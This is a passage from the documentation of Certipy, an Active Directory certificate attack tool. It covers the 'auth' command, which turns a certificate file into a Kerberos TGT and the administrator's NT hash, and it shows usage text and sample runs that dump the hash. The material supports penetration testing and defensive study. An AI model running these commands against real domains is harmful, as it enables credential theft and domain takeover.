 If the request succeeds, the certificate and private key will be saved as a PFX file. The PFX file can then be used for various purposes depending on the certificate's usage.

### Authenticate

The `auth` command will use the PKINIT Kerberos extension to authenticate with the provided certificate to retrieve a TGT and the NT hash of the user.

```
Certipy v2.0.8 - by Oliver Lyak (ly4k)

usage: certipy auth [-h] -pfx pfx/p12 file name [-no-ccache] [-no-hash] [-debug] [-dc-ip ip address] [-ns nameserver] [-dns-tcp] [-timeout seconds] [-username username] [-domain domain]

optional arguments:
  -h, --help            show this help message and exit
  -pfx pfx/p12 file name
                        Path to certificate
  -no-ccache            Don't save CCache
  -no-hash              Don't request NT hash
  -debug                Turn debug output on

connection options:
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter
  -ns nameserver        Nameserver for DNS resolution
  -dns-tcp              Use TCP instead of UDP for DNS queries
  -timeout seconds      Timeout for connections

authentication options:
  -username username
  -domain domain
```

By default, Certipy will try to extract the username and domain from the certificate (`-pfx`) for authentication.

```bash
$ certipy auth -pfx administrator.pfx
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@corp.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got NT hash for 'administrator@corp.local': a87f3a337d73085c45f9416be5787d86
```

The NT hash and the credential cache (TGT) can be used for further authentication with other tools.

If the example above doesn't work in your case, you can specify the required parameters manually, such as the KDC IP, username, and domain.

```bash
$ certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'corp.local' -dc-ip 172.16.19.100
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@corp.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got NT hash for 'administrator@corp.local': a87f3a337d73085c45f9416be5787d86
```
